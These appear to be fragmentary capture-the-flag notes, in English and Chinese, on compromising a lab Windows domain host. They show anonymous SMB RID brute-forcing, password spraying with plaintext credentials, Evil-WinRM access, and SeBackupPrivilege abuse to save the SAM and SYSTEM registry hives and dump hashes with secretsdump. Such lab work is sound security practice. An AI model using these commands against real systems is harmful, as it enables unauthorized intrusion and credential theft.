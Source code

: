 because port 3389 not open, can not use

```PowerShell
 xfreerdp /u:emily.oscars /p:'Q!3@Lp\#M6b*7t*Vt' /v:10.10.11.35
```

from smb get a password, so , we just need find username, nxc can do it

get name btw \ and (

nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute \  
| cut -d '\' -f2 \  
| cut -d ' ' -f1 \

> users.txt  
> 解释：

cut -d '\' -f2

以反斜杠 \ 为分隔符

取第 2 列 → Administrator (SidTypeUser)

cut -d ' ' -f1

以空格为分隔符

取第 1 列 → Administrator

```PowerShell
 nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute   | sed -n 's/.*\\\(.*\) (.*/\1/p' > users.txt
```

```PowerShell
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp\#nZp!8'
```

```PowerShell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```

```PowerShell
reg save HKLM\sam SAM
reg save HKLM\system SYSTEM
```

save both, then use [secretsdump.py](http://secretsdump.py/)

```PowerShell
 secretsdump.py -sam SAM -system SYSTEM LOCAL
```

get the hash

  

to get it is 32 or 64

```PowerShell
$env:PROCESSOR_ARCHITECTURE
```

```PowerShell
uname -m
```

- **SMB 的 RID 枚举只要能建立连接（Guest/匿名即可）就能返回结果**，不需要真正的域账户权限。

也就是说：

|情况|结果|
|---|---|
|`-u ''`|可能失败（空用户名没权限）|
|`-u '.'`|匿名 Guest，可以枚举部分 RID|
|`-u 'guest'`|同上，效果类似|
|`-u '任意不存在用户名'`|仍然会被当作 Guest 或匿名处理，如果服务器允许匿名访问|

```PowerShell
enum4linux-ng -A -u 'Michael.wrightson' -p 'Cicada$M6Corpb*@Lp\#nZp!8' 10.10.11.35
```